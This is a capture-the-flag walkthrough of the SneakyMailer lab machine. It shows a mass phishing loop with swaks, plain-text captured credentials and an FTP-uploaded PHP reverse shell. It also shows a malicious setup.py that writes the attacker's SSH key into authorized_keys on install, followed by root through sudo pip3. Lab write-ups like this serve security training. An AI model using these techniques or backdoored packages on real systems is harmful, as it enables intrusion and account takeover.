

SneakyMailer is a Linux machine. The ip of the box is 10.10.10.197.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/sneakymailer 10.10.10.197`




And I found several services:
- *ssh*
- *ftp*
- *smtp*
- 2 *webserver nginx*(port 80 and 8080)
- *imap*

On port 80 we have a pypi server while on port 8080 we got nginx default page.



I start classic enum with gobuster for directory

>gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10 -u 10.10.10.197 -o enum.txt

and for hosts

>gobuster host -w /usr/share/wordlists/SecList/Discovery/DNS/namelist.txt -u 10.10.10.197 -o host-enum.txt

only found a vhost `dev`, so added `dev.sneakycorp.htb` in `/etc/hosts`.
On `sneakycorp.htb\team.php` there is a list of users and emails so i decide to extract them

>cewl -e --email_file emails.txt  http://sneakycorp.htb/team.php >/dev/null

and got a list of 57 emails.

# User
A this point i tried to phish some user by sending a message.

>for email in \$(cat emails.txt); do swaks --to \$email -s "10.10.10.197" --body "http://10.10.14.137/"; done;



The user `paulbyrd` responde the message with some useful info `firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakycorp.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt`. So I decode the password string and got the password

>**user:paulbyrd and password:^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht**

I tried to login on `ssh` and `ftp` port but it didnt work on both then i tried to login on `imap` on port 993 using the same creds.

For login on imap i used the client email `evolution` and found two emails

>Hello administrator, I want to change this password for the developer account
> 
>Username: developer
>Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C

and

>Hello low
>
>
>Your current task is to install, test and then erase every python module you 
>find in our PyPI service, let me know if you have any inconvenience.

In this way i recovered a new credential
>**user:developer and password:m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C**

I tried again to login on `ftp` and the credential have worked.



On the `ftp` there is only one directory `dev` where there are files of website.



So i tried to upload a php reverse shell



and tried to go `sneakycorp.htb/bk.php` and i didn't get shell so tried on `dev.sneakycorp.htb/bk.ph` and got the rev shell.



A this point tried to login as `developer` 



In `/var/www` there is `pypi.sneakycorp.htb` directory where found `.htpasswd` this htpasswd  file  that contain the  hash for user `pypi`. So i used john for crack the hash and obtain the password `soufianeelhaoui`.



The second email 

>Hello low
>
>
>Your current task is to **install, test** and then erase **every python module you 
>find in our PyPI** service, let me know if you have any inconvenience.

So `low`  have to install the pypi module, whatever module i will install will be installed by the user `low`.

So i need to build a python package so that the user low can install it.
For the package need to create two files:[.pypirc](https://pypi.org/project/pypiserver#upload-with-setuptools)
```python
[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

and [setup.py](https://packaging.python.org/tutorials/packaging-projects/)
```python
import setuptools

try:
    with open("/home/low/.ssh/authorized_keys","w") as file:
       file.write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCrKkXETGqMQgNGcoxMPCuFeT1xNGtU0ejzI8WOiBKSa0eggul09YCvpwZeVEPDswmNirz78WhsUg7KQuiEhOEjrlVzr+/ik7rxPAKRlT5KNKC5udA28zQCfz8qZFvac3HCWwdxebhNYP6lBkZv8uRAEZXi9l3sUGa8TeMt4E2OOeUNR/Vk74kcLg8KKB3+8lvAbYeRjG+X/xGEz89kEznzrtkH9MT/GCtl03ZXb6MFmDM94MmYVkFTITMVuWPJbpDuTxsuK7whr6u9347/DA7qlCmMJq5Cp0u5ePHOMDboQMHGA5RUXsK0tXWjpyEuZ5KJbfvwHe1CLKCedEd5MOpncg3iDXhqtG1K2l1m87asp7lYAPu23fsWXHmQjTZFqj0v8nCw2I6vgVaXmGGk9ERsfGqTy2w0Z8otLtRxwZ0+tucaAzCwa0K/FLueFI17B745cGF8nM9lCTmhCSsaBattgqcqBXinkwK9uY+pYdZUT4esP3nJ5FtlGq7HBRWxk3U= user@parrot-virtual")
except:
    setuptools.setup(
        name='local',
        version='0.1',
        description="A Docker and AWS utility package",
        classifiers=[
            "Programming Language :: Python :: 3",
            "License :: OSI Approved :: MIT License",
            "Operating System :: OS Independent",
        ],
     )
```
A this point i created new directory in `/tmp` called `evilpkg` where i put the `.pypirc` and `setup.py`

now set the current dir
>HOME=$(pwd)

and install the module
>python3 setup.py sdist register -r local upload -r local



Now can connect on the macchine as low through `ssh`



and can take user flag



# Root
The user `low` can run `pip3` as `root`


So following [GTOBins](https://gtfobins.github.io/gtfobins/pip/#shell) i can run shell as root 


and take root flag





